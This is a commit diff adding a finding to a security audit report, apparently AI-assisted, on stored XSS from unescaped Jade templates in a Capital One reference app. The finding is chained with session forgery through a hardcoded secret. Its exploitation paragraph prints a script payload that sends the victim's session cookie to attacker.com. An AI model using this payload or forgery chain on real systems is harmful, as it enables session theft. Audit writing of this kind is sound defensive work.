

Before and after one commit to StealthyBugs/poc, a Markdown page: AUDIT_REPORT.md, 2 parts joined by grey strips. Shown at 94% size. GitHub-like rendering; blank space fills up the shorter version.

Commit message:
Add VULN-23: Stored XSS via unescaped Jade interpolation in CreditOffers templates
Adds finding for multiple unescaped !{} interpolations in CreditOffers Jade
templates (review data, user session fields in prefill modal). Chains with
VULN-04 hardcoded session secret for session forgery with XSS payloads.

https://claude.ai/code/session_018BPYyFK18UCNv78BGq1y3p

```diff
--- a/AUDIT_REPORT.md
+++ b/AUDIT_REPORT.md
@@ -8,9 +8,9 @@
 
 This report contains the results of a static-analysis security audit of 45 public repositories in the Capital One GitHub organization. Analysis focused exclusively on high and critical vulnerabilities reachable through HTTP requests and normal application interaction.
 
-**Total confirmed vulnerabilities: 22**
+**Total confirmed vulnerabilities: 23**
 - Critical: 3
-- High: 11
+- High: 12
 - Medium-High: 8
 
 Each finding below survived multiple rounds of false-positive review, including verification that the code is not dead/test/mock, that no upstream guards neutralize the issue, and that a realistic attack path exists.
@@ -465,6 +465,30 @@ value = value
 
 ---
 
+### VULN-23: Stored XSS via Unescaped Jade `!{}` Interpolation in Multiple Templates
+- **Severity:** HIGH
+- **Repository:** CreditOffers-API-reference-app
+- **Files:**
+  - `views/index.jade:60` — `!{review.count}` (unescaped review count)
+  - `views/offers.jade:38` — `!{card.productDisplayName}` (unescaped product name)
+  - `views/includes/prefill-accept-modal.jade:34,40,46-51,58,66,72,79` — multiple `!{user.*}` fields
+  - `views/layout.jade:34` — `!{copyLine}` (unescaped marketing copy)
+- **Vulnerability Type:** Stored XSS (CWE-79)
+
+**Taint Flow:**
+1. Entry: API response data flows through `client.js` `sendRequest` with no output sanitization
+2. `review.count` and `review.link` come from `card.productMetrics[0].ratingsAndReviews` — passed through from the API via `_.pick` without sanitization in the product viewmodel
+3. `prefill-accept-modal.jade` renders all user session fields (firstName, lastName, dateOfBirth, address, phone, email, annualIncome) using `!{}` (unescaped interpolation)
+4. Session data is signed with the hardcoded secret from VULN-04, enabling session forgery with XSS payloads
+
+**Why protections fail:** Jade/Pug `!{}` is explicitly the unescaped interpolation syntax (safe alternative is `#{}`). While `productDisplayName` and `marketingCopy` are sanitized via `sanitize-html`, the `review.count`, `review.link`, and all user session fields in the prefill modal receive zero sanitization.
+
+**Exploitation (chained with VULN-04):** An attacker forges a session cookie using the hardcoded secret, setting `user.firstName` to `<script>document.location='https://attacker.com/?c='+document.cookie</script>`. When the prefill acceptance modal renders, `!{user.firstName}` outputs the payload unescaped, stealing the victim's session cookie. Alternatively, if the upstream API returns a `review.count` containing HTML, it executes in any user's browser viewing the product listing.
+
+**Not a false positive because:** Jade `!{}` is documented as unescaped output. Multiple template files use it for data that is either API-sourced (unsanitized) or session-sourced (forgeable via VULN-04).
+
+---
+
 ## DISCARDED FINDINGS (False Positives After Review)
 
 The following were investigated and determined to NOT be exploitable:
```
Also changed, not shown: other parts of AUDIT_REPORT.md (+1 -1 lines).
